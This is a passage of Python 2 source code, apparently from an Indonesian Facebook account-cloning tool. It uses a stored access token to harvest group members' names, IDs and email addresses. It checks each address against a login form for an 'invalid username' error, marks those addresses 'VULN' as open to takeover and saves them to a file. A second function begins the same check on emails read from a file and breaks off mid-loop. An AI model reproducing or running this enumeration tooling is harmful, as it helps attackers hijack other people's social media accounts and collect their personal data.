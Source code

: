 				br._factory.is_html = True
				br.select_form(nr=0)
				br["username"] = mail
				klik = br.submit().read()
				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
				try:
					pek = jok.search(klik).group()
				except:
					continue
				if '"messages.ERROR_INVALID_USERNAME">' in pek:
					print("\033[1;96m[✓] \033[1;92mVULN")
					print("\033[1;96m[➹] \033[1;97mID   \033[1;91m: \033[1;92m"+id)
					print("\033[1;96m[➹] \033[1;97mEmail\033[1;91m: \033[1;92m"+mail)
					print("\033[1;96m[➹] \033[1;97mNama \033[1;91m: \033[1;92m"+nama)
					save = open('out/GrupMailVuln.txt','a')
					save.write("Nama : "+ nama + '\n' "ID        : "+ id + '\n' "Email  : "+ mail + '\n\n')
					save.close()
					berhasil.append(mail)
		except KeyError:
			pass
	print 42*"\033[1;96m="
	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
	print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
	print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/GrupMailVuln.txt"
	raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
	menu()
	

def clone_dari_file():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		keluar()
	try:
		os.mkdir('out')
	except OSError:
		pass
	os.system('clear')
	print logo
	print 42*"\033[1;96m="
	files = raw_input("\033[1;96m[+] \033[1;93mNama File \033[1;91m: \033[1;97m")
	try:
		total = open(files,"r")
		mail = total.readlines()
	except IOError:
		print"\033[1;96m[!] \x1b[1;91mFile tidak ditemukan"
		raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
		menu()
	mpsh = []
	jml = 0
	jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
	print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
	print 42*"\033[1;96m="
	mail = open(files,"r").readlines()
	for pw in mail:
		mail = pw.replace("\n","")
		jml +=1
		mpsh.append(jml)
		yahoo = re.compile(r'@.*')